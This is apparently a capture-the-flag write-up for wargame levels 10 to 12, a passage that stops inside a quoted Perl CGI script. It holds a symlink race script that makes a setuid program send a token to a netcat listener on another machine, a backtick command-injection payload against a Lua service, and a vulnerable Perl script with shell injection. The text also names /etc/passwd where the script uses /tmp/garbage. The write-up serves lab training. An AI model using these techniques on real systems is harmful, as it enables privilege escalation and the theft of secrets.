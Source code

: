 The first step was to launch a server on port `6969` on the host machine: `nc -lk 6969`

Now comes the TOCTOU attack (time-of-check to time-of-use). Since the program doesn't run infinitely fast, there is a gap between the `access` check and the sending of the file. We can exploit it by rotating symbolic links. One link must be a file readable by us, another must be `token`.

First create a dummy file where you have the access rights: `echo garbage > /tmp/garbage`

```bash
#!/bin/bash

while true; do
    ln -sf /tmp/garbage /tmp/exploit_link
    ln -sf /home/user/level10/token /tmp/exploit_link
done &

while true; do
    /home/user/level10/level10 /tmp/exploit_link 10.x.x.x
done

kill $(jobs -p)
```

Running this script will sometimes fail the `access` check and sometimes fail the `read` of the file. But if the timing is right, it will `access` `/etc/passwd` and `read+send` `/home/user/level10/token` to the host machine: `woupa2yuojeeaaed06riuj63c`.


## level11

There is a Lua script running on port 5151 that is listening for a password, hashing it with `sha1sum` and checking the hash.

https://www.dcode.fr/sha1-hash found the password `NotSoEasy`. But `echo -n 'NotSoEasy' | nc localhost 5151` showed no output. This was a trap.

Reading the script more carefully showed a possible command injection. `io.popen` is similar to `system` in C, PHP and other languages.

``echo '`getflag | wall`' | nc localhost 5151``

## level12

Once again, there is a Perl CGI script running on port 4646.

```perl
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
    $nn = $_[1];
    $xx = $_[0];
    $xx =~ tr/a-z/A-Z/; 
    $xx =~ s/\s.*//;
    @output = `egrep "^$xx" /tmp/xd 2>&1`;
    foreach $line (@output) {
        ($f, $s) = split(/:/, $line);
        if($s =~ $nn) {
            return 1;
        }
    }
    return 0;
}

sub n {
    if($_[0] == 1) {
```